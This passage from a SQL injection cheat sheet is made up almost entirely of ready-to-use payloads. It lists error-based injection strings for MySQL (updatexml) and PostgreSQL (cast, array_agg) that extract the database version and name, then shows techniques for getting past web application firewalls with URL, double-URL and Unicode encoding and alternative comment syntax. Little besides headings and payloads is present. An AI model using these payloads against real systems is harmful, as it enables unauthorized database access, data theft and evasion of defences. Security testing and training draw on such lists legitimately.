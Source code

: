 #### 2. Updatexml Function
```sql
-- Extract information using updatexml
' AND updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)-- 
' AND updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)-- 
```

### PostgreSQL Error-Based Techniques

#### 1. Cast Function
```sql
-- Cast to invalid type
' AND cast((SELECT version()) as int)-- 
' AND cast((SELECT current_database()) as int)-- 
```

#### 2. Array Functions
```sql
-- Use array functions
' AND (SELECT array_agg(version()))[1]-- 
' AND (SELECT array_agg(current_database()))[1]-- 
```

## WAF Bypass Techniques {#waf-bypass}

Web Application Firewalls can be bypassed using various techniques.

### Encoding Techniques

#### 1. URL Encoding
```sql
-- URL encode special characters
%27%20UNION%20SELECT%201,2,3-- 
%27%20AND%201=1-- 
```

#### 2. Double URL Encoding
```sql
-- Double URL encode
%2527%2520UNION%2520SELECT%25201,2,3-- 
```

#### 3. Unicode Encoding
```sql
-- Unicode encode
%u0027%20UNION%20SELECT%201,2,3-- 
```

### Comment Techniques

#### 1. Alternative Comments
```sql
-- Use different comment styles
' UNION SELECT 1,2,3# 
' UNION SELECT 1,2,3/* 
' UNION SELECT 1,2,3-- 
' UNION SELECT 1,2,3/**/ 
```
